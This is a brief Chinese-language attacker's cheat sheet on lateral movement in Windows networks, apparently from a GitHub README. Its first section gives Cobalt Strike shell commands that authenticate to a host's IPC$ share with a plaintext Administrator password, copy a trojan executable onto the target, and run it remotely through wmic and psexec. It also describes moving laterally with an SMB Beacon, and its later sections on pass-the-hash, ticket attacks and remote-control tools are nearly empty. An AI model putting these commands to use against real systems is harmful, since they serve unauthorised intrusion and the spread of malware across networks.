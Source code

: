 ## 0x00 碰见的横向移动方法总结1_IPC（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\192.168.10.23\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\192.168.10.23\c$\Windows\Temp\ma.exe
      
    wmic远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    
    也可以使用psexec进行远程执行
    
    psexec.exe -accepteula \\192.168.41.150 -h -d c:\wanli.exe
    
    如果发现很久没有上线，可能目标不出网
 ## 0x01 横向移动方法总结2_beacon
 
    SMB Beacon使用命名管道和父级命名管道进行通信,所以利用他可进行横向移动
    
    使用条件
    
    使用SMB的主机必修接受445端口打开
    只能链接由同一Cobalt Strike实例管理的Beacon
## 0x02 横向移动方法3_PTH攻击

## 0x03 横向移动方法4_票据攻击

## 0x04横向移动方法5_远控攻击
  sunlogin


